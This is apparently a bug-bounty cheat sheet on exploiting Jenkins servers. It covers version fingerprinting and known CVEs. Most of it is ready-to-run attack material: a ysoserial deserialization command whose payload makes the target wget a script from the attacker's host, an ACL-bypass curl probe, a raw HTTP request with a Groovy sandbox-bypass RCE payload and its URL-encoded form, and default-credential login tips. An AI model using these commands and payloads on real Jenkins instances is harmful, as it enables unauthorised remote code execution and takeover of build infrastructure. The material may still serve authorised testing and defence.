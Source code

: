 # Jenkins Common Bugs

## Introduction
What would you do if you came across a website that uses Jenkins?

## How to Detect
Usually in the HTTP response there is a header like this `X-Jenkins`

1. Find the related CVE by checking jenkins version
* How to find the jenkins version

By checking the response header `X-Jenkins`, sometimes the version is printed there. If you found outdated jenkins version, find the exploit at [pwn_jenkins](https://github.com/gquere/pwn_jenkins)

Some example CVE:
- Deserialization RCE in old Jenkins (CVE-2015-8103, Jenkins 1.638 and older)

Use [ysoserial](https://github.com/frohoff/ysoserial) to generate a payload.
Then RCE using [this script](./rce/jenkins_rce_cve-2015-8103_deser.py):

```bash
java -jar ysoserial-master.jar CommonsCollections1 'wget myip:myport -O /tmp/a.sh' > payload.out
./jenkins_rce.py jenkins_ip jenkins_port payload.out
```

- Authentication/ACL bypass (CVE-2018-1000861, Jenkins <2.150.1)

Details [here](https://blog.orange.tw/2019/01/hacking-jenkins-part-1-play-with-dynamic-routing.html).

If the Jenkins requests authentication but returns valid data using the following request, it is vulnerable:
```bash
curl -k -4 -s https://example.com/securityRealm/user/admin/search/index?q=a
```

Alternative RCE with Overall/Read and Job/Configure permissions [here](https://github.com/adamyordan/cve-2019-1003000-jenkins-rce-poc).

- CheckScript RCE in Jenkins (CVE-2019-1003030)

How to Exploit:
- [PacketStorm](https://packetstormsecurity.com/files/159603/Jenkins-2.63-Sandbox-Bypass.html)

```
GET /jenkinselj/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript?sandbox=true&value=public class x {
  public x(){
"ping -c 1 xx.xx.xx.xx".execute()
}
} HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: JSESSIONID.4495c8e0=node01jguwrtw481dx1bf3gaoq5o6no32.node0
Connection: close
Upgrade-Insecure-Requests: 1
```
URL Encoding the following for RCE
```
public class x {
  public x(){
"ping -c 1 xx.xx.xx.xx".execute()
    }
}
```
to

%70%75%62%6c%69%63%20%63%6c%61%73%73%20%78%20%7b%0a%20%20%70%75%62%6c%69%63%20%78%28%29%7b%0a%22%70%69%6e%67%20%2d%63%20%31%20%78%78%2e%78%78%2e%78%78%2e%78%78%22%2e%65%78%65%63%75%74%65%28%29%0a%7d%0a%7d

2. Default Credentials
```
Try to login using admin as username and password
```

3. Unauthenticated Jenkins Dashboard
```
Access https://target.com and if there is no login form then it is vulnerable
```
